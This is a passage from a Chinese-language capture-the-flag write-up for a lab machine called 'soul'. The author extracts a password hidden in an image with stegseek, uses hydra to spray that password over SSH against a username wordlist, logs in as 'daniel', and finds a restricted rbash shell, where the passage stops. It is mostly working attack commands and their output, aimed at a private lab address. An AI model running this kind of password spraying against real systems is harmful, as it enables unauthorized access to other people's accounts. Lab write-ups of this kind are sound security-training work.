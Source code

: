 ```plaintext
/nothing
```

尝试访问 `/`，是返回一张图片

```html
<img src="saint.jpg">
```

将图片下载下来进行分析

```shell
┌─[randark@parrot]─[~/tmp]
└──╼ $stegseek saint.jpg
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "pass.txt".
[i] Extracting to "saint.jpg.out".

┌─[randark@parrot]─[~/tmp]
└──╼ $cat saint.jpg.out
lionsarebigcats
```

尝试进行密码喷洒攻击

```shell
┌─[randark@parrot]─[~]
└──╼ $ hydra -I -v -V -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p lionsarebigcats 192.168.56.115 ssh -t 4
......
[22][ssh] host: 192.168.56.115   login: daniel   password: lionsarebigcats
```

## User - daniel

```shell
┌─[✗]─[randark@parrot]─[~]
└──╼ $ ssh daniel@192.168.56.115
daniel@192.168.56.115's password:
Linux soul 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Feb 18 09:49:04 2024 from 192.168.56.102
daniel@soul:~$ whoami
daniel
```

经过探测，这里是受限 shell 环境，即为 `rbash`

